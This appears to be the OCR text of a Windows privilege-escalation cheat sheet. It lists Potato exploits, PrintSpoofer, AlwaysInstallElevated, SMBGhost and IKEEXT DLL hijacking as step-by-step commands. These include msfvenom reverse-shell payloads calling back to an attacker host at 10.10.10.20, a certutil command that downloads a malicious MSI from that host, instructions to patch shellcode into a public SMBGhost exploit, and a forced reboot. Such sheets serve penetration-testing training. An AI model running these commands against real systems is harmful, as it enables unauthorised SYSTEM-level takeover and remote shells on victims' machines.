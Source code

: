 **PE only
1: Potato Suite:** Juicy Potato, Rotten Potato, Rouge Potato, Lonely Potato, Hot
Potato
If **Impersonating Privileges** is enabled, pay attention to **Potato exploits** ,
especially current user is a **service account**

**2: PrintSpoofer**
From LOCAL/NETWORK SERVICE to SYSTEM by abusing
**SeImpersonatePrivilege** on **Windows 10** and Server 2016/2019.
Exp: **https://github.com/itm4n/PrintSpoofer**
Command: **PrintSpoofer.exe -i -c cmd**

**3: AlwaysInstallElevated**
a: If **AlwaysInstalledElevated** is **on**
b: **msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.20
LPORT=4444 -f msi > exp.msi**
c: **certutil -urlcache -split -f [http://10.10.10.20/exp.msiexp.msi](http://10.10.10.20/exp.msiexp.msi)**
d: Set up a netcat listener, execute **.\exp.msi**

**4: SMBGhost**
a: According to **Kernel version** and **hotfixs list** , infer if target is vulnerable to
**SMBGhost vulnerability**
b: netstat -ano, if **445** is open
c: Download the exploit from **https://github.com/tango-j/CVE- 2020 - 0796**
d: Generate shellcode: **msfvenom -p windows/x64/shell_reverse_tcp
LHOST=10.10.10.20 LPORT=5555 -f dll -f csharp** , and replace the part from line
**204** of the exploit
e: Use **Visual Studio** to **compile** , transfer it to target
f: Execute it

**5: IKEEXT DLL Hijacking**
a: **sc query IKEEXT**
b: **PATH** , check is **any path** in environment variable **writable**
c: Generate a **dll payload** , copy it to the **writable path**
d: **shutdown -r -t 1 &&exit**
e: Set up netcat listener again




